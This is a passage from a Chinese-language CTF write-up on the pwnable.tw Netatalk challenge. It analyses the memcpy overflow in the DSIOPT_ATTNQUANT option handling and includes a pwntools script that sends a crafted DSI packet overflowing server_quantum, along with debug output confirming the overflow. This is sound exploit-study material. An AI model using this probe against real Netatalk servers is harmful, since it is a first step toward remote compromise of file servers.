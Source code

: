 再对应memcpy，基本就能看明白了：

```c
switch (dsi->commands[i++]) {
case DSIOPT_ATTNQUANT:
    memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);
```

其中DSIOPT_ATTNQUANT为0x1：

```c
/* /netatalk-3.1.11/include/atalk/dsi.h */

#define DSIOPT_ATTNQUANT 0x01   /* attention quantum */
```

所以memcpy就是从commands数据中按顺序解析出三个元素：功能码，数据长度，数据载荷。所以，也就是由于拷贝的需要的两个参数是揉在一段数据里，并且没有变量名标识，导致看起来比较费解：

```c
commands = 功能码(1 byte) + 数据长度(1 byte) + 数据载荷(n byte)
```


故最终交互，就是构造dsi数据包，并给发送给目标的tcp端口。尝试溢出server_quantum，这个字段可在回包中收到：

```python
from pwn import *
context(endian='big',log_level='debug')
io = remote("chall.pwnable.tw",10002)

cmd  = b'\x01'+ p8(0xc)+ b'a'*0xc
dsi  = b'\x00\x04\x00\x01' 
dsi += p32(0)
dsi += p32(len(cmd)) 
dsi += p32(0)
dsi += cmd

io.send(dsi)
io.recv()
```

测试的确可以收到4个a：

```python
➜   python3 exp.py
[+] Opening connection to chall.pwnable.tw on port 10002: Done
[DEBUG] Sent 0x1e bytes:
    00000000  00 04 00 01  00 00 00 00  00 00 00 0e  00 00 00 00  │····│····│····│····│
    00000010  01 0c 61 61  61 61 61 61  61 61 61 61  61 61        │··aa│aaaa│aaaa│aa│
    0000001e
[DEBUG] Received 0x1c bytes:
    00000000  01 04 00 01  00 00 00 00  00 00 00 0c  00 00 00 00  │····│····│····│····│
    00000010  00 04 61 61  61 61 02 04  00 00 00 80               │··aa│aa··│····│
    0000001c
[*] Closed connection to chall.pwnable.tw port 10002
```

如果想看到清晰的协议格式，可以用wireshark，但因为端口不是协议默认，故需要手动让其识别：
